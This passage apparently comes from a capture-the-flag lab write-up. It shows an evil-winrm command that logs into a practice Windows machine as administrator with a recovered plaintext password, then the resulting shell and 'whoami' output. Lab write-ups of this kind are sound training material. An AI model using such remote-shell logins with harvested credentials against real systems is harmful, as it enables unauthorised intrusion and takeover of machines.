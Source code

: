         evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
    
    Evil-WinRM shell v3.3
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
    
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    supportdesk\administrator

****Funny Quote: I felt I was the greatest hacker, that i can hack anything. But that was just an illusion🤣****

